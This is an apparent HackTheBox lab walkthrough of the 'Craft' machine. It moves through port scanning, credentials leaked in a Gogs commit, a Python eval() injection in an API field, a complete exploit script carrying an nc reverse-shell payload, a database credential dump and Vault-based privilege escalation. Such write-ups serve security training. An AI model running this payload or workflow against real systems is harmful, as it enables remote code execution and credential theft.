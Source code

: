 ## HackTheBox Machine
![alt text](/Machine_Labs/Craft/Images/image.png)

### Link: https://app.hackthebox.com/machines/Craft
-------------------------------------------------------

### RECON:
+ Scan the open port in the machine:

```bash
$ nmap -sV -vv -A -T4 -p- craft.htb
PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)

443/tcp  open  ssl/http syn-ack nginx 1.15.8
|_http-server-header: nginx/1.15.8
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Issuer: commonName=Craft CA/organizationName=Craft/stateOrProvinceName=New York/countryName=US/emailAddress=admin@craft.htb/localityName=Buffalo/organizationalUnitName=Craft
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-02-06T02:25:47
| Not valid after:  2020-06-20T02:25:47
| MD5:   0111:76e2:83c8:0f26:50e7:56e4:ce16:4766
| SHA-1: 2e11:62ef:4d2e:366f:196a:51f0:c5ca:b8ce:8592:3730
6022/tcp open  ssh      syn-ack (protocol 2.0)
| ssh-hostkey: 
|   2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDU+fEcb0HbuFvUiMce89AuwclFwGQAJ/FSk+X/uPL+08lP9AzNCivAovV8Py3XEGfUhSDQeJ6Xw5aZCIZB7z/40IViSC1S1fe49lmv7TlDSFKEOZIDQIAuDP3giwyrdX0MnM5qrFtqs9lIH0D8MnGVCh3kcjG5Mh+Jb4/fcGkIpLSAyVc2Fm5PFFV0XIay5vv/SffCO1141JHFZj+Sal4t4MmlZiY1RTaAgGLsn1SshS2EYFv91rZqHmmNCk+GNVSU9txRQm3OrB+06QTsOWnYN71p6+hTe/TQjhaE53zM+/xZi7sPIq6l6evvNSMOOt9fgVQkvM2NuVutLiq6od2h
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
```

### Exploit Gogs service:
+ Access the main page `craft.htb`, we've found the `API` and Git service `Gogs`.
+ Go each page one by one, we've found some interesting things. In the page `Gogs`, we saw the repo `craft-api` with developers.
+ Looking around account of developers, we've found the commit of user `dinesh` about the bug of API:

![alt text](/Machine_Labs/Craft/Images/image-1.png)

--> We found the dinesh user's password for the API: `'dinesh', '4aUh0A8PbVJxgd'`.

+ We can use the credential to login API:

![alt text](/Machine_Labs/Craft/Images/image-2.png)

--> Get the token to login. We can use it to check later.

![alt text](/Machine_Labs/Craft/Images/image-4.png)

![alt text](/Machine_Labs/Craft/Images/image-5.png)

+ Back to the first commit, we check the source code `brew.py`:

```bash
 # make sure the ABV value is sane.
        if eval('%s > 1' % request.json['abv']):
            return "ABV must be a decimal value less than 1.0", 400
        else:
            create_brew(request.json)
            return None, 201
```

--> We've found the vulnerability in `eval()`, we can inject the payload into function to spawn reverse shell.

***Note:*** `eval()` - function evaluates the specified expression, if the expression is a legal Python statement, it will be executed:

```python
>>> eval("2 + 2")
4
>>> eval("__import__ ('os').system('whoami')")
zicco
0
```

+ Access `/craft-api/tests/test.py`, we see the source code and func `eval()` in brew.py that we will manipulate the parameter `abv` to inject the payload when execute `test.py` to create a new brew entry.
+ Download `test.py` to the attack machine and edit the file to run it:

```python
#!/usr/bin/env python

import requests
import json
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

response = requests.get('https://api.craft.htb/api/auth/login',  auth=('dinesh', '4aUh0A8PbVJxgd'), verify=False)
json_response = json.loads(response.text)
token =  json_response['token']

headers = { 'X-Craft-API-Token': token, 'Content-Type': 'application/json'  }

# make sure token is valid
response = requests.get('https://api.craft.htb/api/auth/check', headers=headers, verify=False)
print(response.text)


# create a sample brew with real ABV... should succeed.
print("Create real ABV brew")
brew_dict = {}
brew_dict['abv'] = "__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f')"
brew_dict['name'] = 'bullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
```

***Note***: We add `urllib3`:
```
import urllib3 
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
```
to disable the error certification

+ Now run file test.py and open netcat to capture the shell:

![alt text](/Machine_Labs/Craft/Images/image-6.png)

![alt text](/Machine_Labs/Craft/Images/image-7.png)

### Finding SSH credenials through Mysql database:
+ In the file `settings.py`, we found the credential user of database:

![alt text](/Machine_Labs/Craft/Images/image-8.png)

--> We've had `User`, `Password`, `DB`, `Host`.

+ Back again the repo `craf-api`, we've check python file `dbtest.py`. We are able to run file .py in the target machine to extract the information of database.
+ Firstly, we will wget file .py in target machine and edit again `dbtest.py`.

```bash
$ sudo python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.5 - - [09/Mar/2025 14:27:13] "GET / HTTP/1.1" 200 -
10.10.14.5 - - [09/Mar/2025 14:27:13] code 404, message File not found
10.10.14.5 - - [09/Mar/2025 14:27:13] "GET /favicon.ico HTTP/1.1" 404 -
10.10.10.110 - - [09/Mar/2025 14:27:22] "GET /dbtest.py HTTP/1.1" 200 -
```

![alt text](/Machine_Labs/Craft/Images/image-9.png)

+ We can check file edited:
```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try: 
    with connection.cursor() as cursor:
        sql = "show tables" # Edit query sql to execute which we want
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```
***Note***: Because import `pymysql` we can use `fetchall()` - Fetch all the rows. Searching more relate class `pymysql` in [here](https://pymysql.readthedocs.io/en/latest/modules/cursors.html).

+ Run `dbtest.py`:

![alt text](/Machine_Labs/Craft/Images/image-10.png)

+ Now we change query to extract users:

```python
 with connection.cursor() as cursor:
        sql = "SELECT * FROM user"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)
```

+ Run `dbtest.py` again:

![alt text](/Machine_Labs/Craft/Images/image-11.png)

--> We use the credential user `gilfoyle` to login git service `gogs`.

+ Login `gogs` we found the gilfoyle's repo name `craft-infra`.
+ Check repo we had key .ssh/id_rsa to login SSH. Save key to machine and login SSH.

![alt text](/Machine_Labs/Craft/Images/image-12.png)

### Privilege Escalation:
+ Check again repo `craft-infra`, we've checked secret file `secrets.sh` in /vault.
+ Read it and we guess we can use it to privilege escalation.

![alt text](/Machine_Labs/Craft/Images/image-13.png)

+ Research about `vault` and `ssh`, we found the way call `One-time SSH passwords`. [Read it!!!](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords).

+ We run following `Automate it!` to create a new OTP and invoke SSH with the correct parameters to connect to the host.

+ Run CLI and we get the root:

![alt text](/Machine_Labs/Craft/Images/image-14.png)
-----------------------------------------------------------